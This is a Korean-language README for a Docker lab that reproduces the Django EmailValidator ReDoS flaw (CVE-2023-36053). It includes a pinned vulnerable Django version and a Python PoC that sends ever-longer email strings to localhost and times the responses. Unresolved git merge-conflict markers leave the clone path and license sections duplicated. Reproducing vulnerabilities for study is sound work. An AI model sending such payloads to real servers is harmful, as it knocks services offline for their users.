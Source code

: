 # Vulnerable Django Email Validation App (CVE-2023-36053)

이 프로젝트는 Django의 `EmailValidator`에서 발생하는 **CVE-2023-36053** ReDoS 취약점을 PoC하기 위한 환경을 제공합니다. 긴 이메일 입력을 통해 서비스 거부 공격을 재현할 수 있습니다.

---

## 📂 Project Structure

```
CVE-2023-36053
├── Dockerfile
├── docker-compose.yaml
├── requirements.txt
├── manage.py
├── config/
│   ├── __init__.py
│   ├── settings.py
│   ├── urls.py
│   └── wsgi.py
└── vuln_app/
    ├── __init__.py
    ├── views.py
    └── urls.py
```

---

## 🚀 Prerequisites

- **Docker** 20.10 이상 설치  
- **docker-compose** 1.29 이상 설치  

---

## 🐳 Docker & Docker Compose 환경 구성

1. **레포지토리 클론**
   ```bash
   git clone https://github.com/yourusername/vuln-django-email.git
<<<<<<< HEAD
   cd Django/CVE-2023-36053
=======
   cd kr-vulhub/Django/CVE-2023-36053/CVE-2023
>>>>>>> 41f7ce99a4fdea865beaa332bf69fd7d51110093
   ```

2. **Docker 이미지 빌드**
   ```bash
   docker-compose build
   ```

3. **컨테이너 실행**
   ```bash
   docker-compose up -d
   ```

4. **서버 상태 확인**
   ```bash
   docker-compose ps
   ```
   - `web` 서비스의 `0.0.0.0:8000->8000/tcp` 바인딩 확인

5. **애플리케이션 접속 테스트**
   ```bash
   curl http://localhost:8000/vuln/ -d "email=test@example.com"
   ```

---

## 🔧 Dockerfile

```dockerfile
FROM python:3.9-slim
WORKDIR /app

COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt

COPY . .
EXPOSE 8000
CMD ["python", "manage.py", "runserver", "0.0.0.0:8000"]
```

---

## 🔧 docker-compose.yaml

```yaml
version: "3"
services:
  web:
    build: .
    ports:
      - "8000:8000"
    volumes:
      - .:/app
    environment:
      - PYTHONUNBUFFERED=1
```

---

## 📋 Dependencies

- `Django==4.2.2`
- `requests`

```text
# requirements.txt
Django==4.2.2
requests
```

---

## 🎯 PoC 스크립트 (poc.py)

긴 이메일 입력에 따른 응답 시간을 측정하는 스크립트입니다:

```python
import requests
import time

def test_email(lengths):
    url = "http://localhost:8000/vuln/"
    for n in lengths:
        email = "test@" + ("a." * n) + "example.com"
        start = time.time()
        res = requests.post(url, data={"email": email})
        elapsed = time.time() - start
        print(f"labels={n}, status={res.status_code}, time={elapsed:.3f}s")

if __name__ == "__main__":
    test_email([10, 100, 1000, 10000, 50000])
```

---

## 📋 Endpoints

- **POST** `/vuln/`
  - Form data: `email` (string)
  - Response: `Valid` 또는 `Invalid`

---

## 📈 테스트 및 결과

1. `docker-compose up -d` 후 서버 실행  
2. `python3 poc.py` 실행  
3. 입력 길이에 따른 응답 시간 변화 확인

![image](https://github.com/user-attachments/assets/be10d405-27fe-451e-a5c3-78cf0a32579a)


*라벨 수가 늘어남에 따라 처리 지연이 기하급수적으로 증가함을 확인할 수 있습니다.*

---

## 📄 License

<<<<<<< HEAD
MIT License. 자세한 내용은 [LICENSE](LICENSE) 파일을 참고하세요.

---

## 🔗 GitHub Repository

[https://github.com/yourusername/vuln-django-email](https://github.com/yourusername/vuln-django-email)
=======
MIT License. See [LICENSE](LICENSE) for details.
>>>>>>> 41f7ce99a4fdea865beaa332bf69fd7d51110093
